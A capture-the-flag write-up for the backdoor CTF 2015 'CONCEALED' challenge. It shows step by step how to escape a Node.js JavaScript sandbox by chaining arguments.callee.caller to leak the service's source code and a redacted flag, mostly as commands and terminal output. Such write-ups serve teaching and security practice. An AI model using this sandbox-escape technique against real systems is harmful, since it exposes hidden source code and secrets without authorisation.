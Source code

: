 # backdoor CTF 2015: [CONCEALED](https://backdoor.sdslabs.co/challenges/CONCEALED)

**Category:** Exploit
**Points:** 225
**Author:** [Amanpreet Singh](https://backdoor.sdslabs.co/users/apsdehal)
**Difficulty:** TODO
**Solves:** 24
**Description:**

* <https://backdoor.sdslabs.co/challenges/CONCEALED>

> All paths have been concealed. Get the hidden flag: `nc hack.bckdr.in 8005`. Submit sha-256 of the flag

## Write-up

Let’s connect to the service:

```bash
$ nc hack.bckdr.in 8005
######################################
####           CONCEAL            ####
######################################

Welcome to CONCEAL
You have access to object named sandboxed and its functions
Rest everything is sandboxed, don’t be a jerk and break something
Wrap your code in a function and return what you want as output
Flag is hidden somewhere in the code.
Get the flag :D!

home@jail:$
```

The welcome message reveals that the flag is hidden in the source code running the service. Some initial testing reveals it’s a JavaScript sandbox:

```
home@jail:$ sandboxed
TypeError: Property 'sandboxed' of object #<Object> is not a function

home@jail:$ function() { return sandboxed; }
[object Object]

home@jail:$ function() { return Object.keys(sandboxed); }
readFlag,print

home@jail:$ sandboxed.readFlag
flag: wrong_flag

home@jail:$ function() { return sandboxed.readFlag; }
function () {
  text = 'flag: wrong_flag';
  return text;
}

home@jail:$ sandboxed.print
undefined

undefined

home@jail:$ function() { return sandboxed.print; }
function (data) {
  sys.print(data + '\n' + '\n');
}
```

It’s possible to crash the application, which reveals a small part of the source code, but not the flag:

```
home@jail:$ function() { return this; }

/index.js:76
                sys.print(data + '\n');
                               ^
TypeError: Cannot convert object to primitive value
    at /index.js:76:20
    at /node_modules/prompt/lib/prompt.js:316:32
    at /node_modules/prompt/node_modules/utile/node_modules/async/lib/async.js:142:25
    at assembler (/node_modules/prompt/lib/prompt.js:313:9)
    at /node_modules/prompt/lib/prompt.js:322:32
    at /node_modules/prompt/lib/prompt.js:599:5
    at Interface.onLine (/node_modules/prompt/node_modules/read/lib/read.js:111:5)
    at Interface.emit (events.js:95:17)
    at Interface._onLine (readline.js:203:10)
    at Interface.<anonymous> (readline.js:323:12)
```

In JavaScript function contexts, `arguments.callee` refers to the currently executing function. As a result, `arguments.callee.caller` refers to the function that called the current one (i.e. one level up the call stack). This enables us to find out how the sandbox wraps our input:

```
home@jail:$ function() { return String(arguments.callee.caller); }
function () {return (function() { return String(arguments.callee.caller); })()}
```

So, our input gets wrapped in `function () {return ($INPUT)()}` and executed in a sandbox. But what is the `caller` of that function?

```
home@jail:$ function() { return String(arguments.callee.caller.caller); }
function () {
        if (!(this instanceof Script)) {
          throw new TypeError('invalid call to ' + f);
        }
        return ns[f].apply(ns, arguments);
      }
```

A-ha! We’re slowly revealing more and more source code, but no flag so far.  We need to go deeper!

Eventually we end up with the following payload which reveals the flag as part of a source code comment:

```
home@jail:$ function() { return String(arguments.callee.caller.caller.caller.caller.caller.caller.caller.caller.caller); }
function (err, line) {

    // flag : [redacted]

    if (err && wait === false) {
      return callback(err);
    }

    var against = {},
        numericInput,
        isValid;

    if (line !== '') {
      if (schema.properties[propName]) {
        var type = (schema.properties[propName].type || '').toLowerCase().trim() || undefined;

        //
        // Attempt to parse input as a float if the schema expects a number.
        //
        if (type == 'number') {
          numericInput = parseFloat(line, 10);
          if (!isNaN(numericInput)) {
            line = numericInput;
          }
        }

        //
        // Attempt to parse input as a boolean if the schema expects a boolean
        //
        if (type == 'boolean') {
          if(line === "true") {
            line = true;
          }
          if(line === "false") {
            line = false;
          }
        }

        //
        // If the type is an array, wait for the end. Fixes #54
        //
        if (type == 'array') {
          var length = prop.schema.maxItems;
          if (err) {
            if (err.message == 'canceled') {
              wait = false;
              stdout.write('\n');
            }
          }
          else {
            if (length) {
              if (tmp.length + 1 < length) {
                isValid = false;
                wait = true;
              }
              else {
                isValid = true;
                wait = false;
              }
            }
            else {
              isValid = false;
              wait = true;
            }
            tmp.push(line);
          }
          line = tmp;
        }
      }

      against[propName] = line;
    }

    if (prop && prop.schema.before) {
      line = prop.schema.before(line);
    }

    // Validate
    if (isValid === undefined) isValid = prompt._performValidation(name, prop, against, schema, line, callback);

    if (!isValid) {
      return prompt.getInput(prop, callback);
    }

    //
    // Log the resulting line, append this `property:value`
    // pair to the history for `prompt` and respond to
    // the callback.
    //
    logger.input(line.yellow);
    prompt._remember(propName, line);
    callback(null, line);

    // Make sure `tmp` is emptied
    tmp = [];
  }
```

Now that we have the flag, all that’s left to do is to hash it using SHA-256 so it can be submitted:

```bash
$ printf "$flag" | sha256sum
```

## Other write-ups and resources

* <http://geeksspeak.github.io/blog/2015/04/03/backdoor-ctf-2015-concealed-writeup/>
* <https://babyphd.net/2015/04/backdoorctf-writeup/>
